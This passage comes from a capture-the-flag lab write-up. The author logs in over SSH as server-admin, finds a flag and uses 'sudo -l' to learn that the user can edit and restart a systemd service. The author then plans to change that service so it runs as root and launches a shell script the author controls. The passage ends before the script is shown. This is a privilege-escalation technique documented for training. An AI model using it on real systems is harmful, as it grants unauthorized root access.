 This password can be used to gain access to the system.

# Port 22

```bash
$ ssh server-admin@10.10.137.57
```

Inside the home directory we have the second flag

```bash
server-admin@duckyinc:~$ ls
flag2.txt
server-admin@duckyinc:~$ wc -c flag2.txt 
18 flag2.txt
```

Then I tried to access the root user. Viewing if the user server-admin can run some binary as root.

```bash
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin: 
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart
        duckyinc.service, /bin/systemctl daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
```

We can see we can edit the duckyinc.service, enable, restart and start. Lets modify the service.

/etc/systemd/system/duckyinc.service

```bash
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=flask-app
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

Lets change the user and group to root and exec start to a shell script we control and restart the service.
